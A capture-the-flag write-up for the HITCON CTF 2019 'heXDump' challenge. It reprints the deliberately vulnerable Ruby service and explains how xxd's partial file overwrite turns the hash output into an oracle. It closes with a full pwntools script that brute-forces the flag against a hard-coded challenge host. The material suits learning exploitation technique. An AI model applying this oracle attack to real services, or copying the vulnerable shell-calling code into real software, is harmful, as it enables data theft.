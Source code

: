 ```yaml
---
layout: post
title: "HITCON CTF 2019 / heXDump"
permalink: /hitcon-2019-hexdump
---
```


In this challenge, we are given the following ruby script:

```ruby
#!/usr/bin/env ruby
# encoding: ascii-8bit
# frozen_string_literal: true
 
 
require 'English'
require 'fileutils'
require 'securerandom'
 
 
FLAG_PATH = File.join(ENV['HOME'], 'flag')
DEFAULT_MODE = "sha1sum %s | awk '{ print $1 }'"
 
 
def setup
  STDOUT.sync = 0
  STDIN.sync = 0
  @mode = DEFAULT_MODE
  @file = '/tmp/' + SecureRandom.hex
  FileUtils.touch(@file)
  @key = output("sha256sum #{FLAG_PATH} | awk '{ print $1 }'").strip
  raise if @key.size != 32 * 2
end
 
 
def menu
  <<~MENU
    1) write
    2) read
    3) change output mode
    0) quit
  MENU
end
 
 
def output(cmd)
  IO.popen(cmd, &:gets)
end
 
 
def write
  puts 'Data? (In hex format)'
  data = gets
  return false unless data && !data.empty? && data.size < 0x1000
 
 
  IO.popen("xxd -r -ps - #{@file}", 'r+') do |f|
    f.puts data
    f.close_write
  end
  return false unless $CHILD_STATUS.success?
 
 
  true
end
 
 
def read
  unless File.exist?(@file)
    puts 'Write something first plz.'
    return true
  end
 
 
  puts output(format(@mode, @file))
  true
end
 
 
def mode_menu
  <<~MODE
    Which mode?
    - SHA1
    - MD5
    - AES
  MODE
end
 
 
def change_mode
  puts mode_menu
  @mode = case gets.strip.downcase
          when 'sha1' then "sha1sum %s | awk '{ print $1 }'"
          when 'md5' then "md5sum %s | awk '{ print $1 }'"
          when 'aes' then "openssl enc -aes-256-ecb -in %s -K #{@key} | xxd -ps"
          else DEFAULT_MODE
          end
end
 
 
def secret
  FileUtils.cp(FLAG_PATH, @file)
  true
end
 
 
def main_loop
  puts menu
  case gets.to_i
  when 1 then write
  when 2 then read
  when 3 then change_mode
  when 1337 then secret
  else false
  end
end
 
 
setup
begin
  loop while main_loop
  puts 'See ya!'
ensure
  FileUtils.rm_f(@file)
end
```

`write` allows us to write to the temporary file created and `read` prints out the content of the file as md5/sha1 hashed or aes256 encrypted using the sha256 hash of the flag as the key.

There is also `secret` which is not included in the menu. It simply copies the flag into our temporary file.

`write` uses `xxd` to convert hexadecimal string to bytes. However, this operation overwrites the file from the start of it instead of overwriting the whole file.

```bash
$ printf '414243444546' | xxd -r -ps - test && cat test
ABCDEF
$ printf '6162' | xxd -r -ps - test && cat test
abCDEF
```

We can use this to brute force the flag one character at a time.

In order to find the length of the flag, we will copy the flag into the file first, Then, we will overwrite its characters one by one until, the hash of the file matches the hash of the characters we have sent so far.

After finding the length of the flag, we will simply overwrite all characters of it except the last one and read its hash. Then, we will just brute force that character and move on to the next character from the end of the string. We will repeat this until we get all the characters.

Here is the full script:

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-
from hashlib import sha1
from pwn import *
from string import printable
context.log_level = 'error'
 
 
HOST = '13.113.205.160'
PORT = 21700
 
 
def choose(r, option):
    r.recvuntil('quit\n')
    r.sendline(str(option))
 
 
def write(r, data):
    choose(r, 1)
    r.recvline()
    r.sendline(data.encode('hex'))
 
 
def read(r):
    choose(r, 2)
    return r.recvline().rstrip()
 
 
def secret(r):
    choose(r, 1337)
 
 
def find_length():
    for length in xrange(1, 100):
        s = 'A' * length
        with remote(HOST, PORT) as r:
            secret(r)
            write(r, s)
            if read(r) == sha1(s).hexdigest():
                return length
    raise Exception('Could not find the length!')
 
 
def find_char(flag, i):
    with remote(HOST, PORT) as r:
        secret(r)
        write(r, 'A' * (i - 1))
        sha1_hash = read(r)
    for c in printable:
        s = 'A' * (i - 1) + c + flag
        if sha1_hash == sha1(s).hexdigest():
            return c
    raise Exception('Could not find char #{}!'.format(i))
 
 
def main():
    length = find_length()
    print 'Length: {}'.format(length)
    flag = ''
    for i in xrange(length, 0, -1):
        flag = find_char(flag, i) + flag
    print 'Flag: {}'.format(flag)
 
 
if __name__ == '__main__':
    main()
```
